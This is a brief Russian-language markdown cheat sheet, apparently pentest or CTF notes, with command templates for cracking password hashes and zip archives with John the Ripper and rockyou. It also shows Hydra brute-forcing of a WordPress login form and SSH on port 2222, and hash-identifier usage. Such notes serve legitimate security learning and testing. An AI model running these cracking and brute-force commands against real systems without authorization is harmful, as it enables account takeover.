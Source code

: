 ## John the ripper
Имея hash пароля пытается подобрать верный пароль.
Пример:
``` 
john hash.txt --wordlist=/usr/share/wordlist/rockyou.txt -format=<hash format, напримире bcrypt> resultFile.txt
```
Пример:
``` 
john md5.hash --wordlist=/usr/share/wordlist/rockyou.txt -format=Raw-MD5 resultFile.txt
```
### Zip archive
```
zip2john archive.zip > arch.hash
john arch.hash -o rockyou.txt
```
## Hydra
Пример брутфорса пародя внутри формы авторизации на wordpress/wp-login.php:
``` 
hydra -L <username> -p <brutList.txt> <url например 10.10.1.2> http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:Invalid username" -t 30
```
``` 
hydra -l <username> -P <brutList.txt> <url например 10.10.1.2> http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:The password you entered for username" -t 30
```
Пример брутфорса пароля SSH на порту 2222:
``` 
hydra -l <username> -P <brutList.txt> ssh:10.10.1.2:2222
```
## Взлом Hash-а - hash-identifier
```
hash-identifier
HASH: <hash>
```